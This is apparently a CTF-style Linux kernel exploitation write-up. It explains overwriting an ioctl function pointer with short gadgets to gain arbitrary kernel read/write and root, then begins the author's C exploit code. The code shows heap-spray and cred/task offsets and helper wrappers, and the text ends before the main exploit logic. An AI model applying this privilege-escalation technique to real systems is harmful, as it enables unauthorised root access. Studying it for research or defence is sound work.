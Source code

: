 ```c
```

### Overall
The core idea is to overwrite `ioctl` function pointer with gadgets that take advantage of the fact that RDX, ESI is user controlled and the final value of EAX is visible in userspace. Using this property we bulid a stable arbitrary read write primitive to get uid0. 

Also, the two gadgets used for the exploit have a high chance of existing, because they are 3 bytes only and the kernel code section is huge.

This is my exploit code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <assert.h>
#include <string.h>
#include <pty.h>
#include <sys/fcntl.h>
#include <sys/mman.h>
#include <sys/ioctl.h>

#define LOG(f_, ...) printf(("[*] " f_), __VA_ARGS__)
#define SPRAY_CNT 32*32*32
#define PAGESIZE 0x1000
#define TASKS_OFFSET 0x388
#define CRED_OFFSET 0x620
#define PID_OFFSET 0x488
void *sprayed_pages[SPRAY_CNT];
char zeropage[PAGESIZE];

int fd;
int slave_fd;
unsigned long kernel_base;
unsigned long r_gadget;
unsigned long w_gadget;
unsigned long init_task;
unsigned long setup_disble_smap;
unsigned long ftable[0x80];

struct skewBuf {
	unsigned char blank;
	unsigned long vec[127];
	unsigned char leftover[7];
}  __attribute__((packed));

int Open(const char *fname, int mode) {
	int fd = open(fname, mode);
	if (fd < 0) {
		perror("open");
		exit(-1);
	}
	return fd;
}

size_t Read(int fd, void *buf, size_t nbytes) {
	size_t nb = read(fd, buf, nbytes);
	if (nb != nbytes) {
		perror("read");
		exit(-1);
	}
	return nb;
}
```
